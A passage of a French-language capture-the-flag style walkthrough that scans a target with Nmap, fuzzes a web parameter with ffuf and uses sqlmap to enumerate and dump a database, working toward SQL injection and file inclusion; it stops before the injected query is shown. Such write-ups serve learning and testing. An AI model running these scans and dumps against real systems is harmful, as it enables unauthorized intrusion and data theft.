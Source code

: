 
## 2. Phase 1 : reconnaissance réseau complète

### 1.1 Scan exhaustif Nmap (avec sortie sur fichiers)

```bash
nmap -T4 -n -sC -sV -Pn -p- $TARGET -oA nmap/full
```

*Sortie résumée* :

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
```

### 1.2 Inspection manuelle du site

1. Ouvrir le navigateur sur `http://$TARGET/`.
2. Repérer le lien « Image Grid » et noter les trois paramètres : `album.php?short_tag=cute`, `smart`, `fav`.
3. Cliquer sur une image révèle l’URL interne : `image.php?hash=<HMAC>&path=<chemin>`.

> **Observation** : la présence conjointe de `hash` et `path` suggère un calcul HMAC serveur.

---

## 3. Phase 2 : SQL Injection ➜ LFI

### 2.1 Recherche des caractères bloqués dans `short_tag`

```bash
ffuf -u "http://$TARGET/album.php?short_tag=FUZZ" \
     -w /usr/share/seclists/Fuzzing/special-chars.txt -mr "Hacking attempt"
```

Résultat : seuls les caractères ";" et "/" déclenchent le message « Hacking attempt ».

### 2.2 Exploration automatique avec sqlmap

Liste des schémas :

```bash
sqlmap -u "http://$TARGET/album.php?short_tag=smart" -p short_tag \
       --risk 3 --level 5 --threads 10 --batch --dbs
```

Dump des tables du schéma `web` :

```bash
sqlmap -u "http://$TARGET/album.php?short_tag=smart" -p short_tag \
       --risk 3 --level 5 --threads 10 --batch -D web --hex --dump
```

Affichage de la requête SQL exacte :
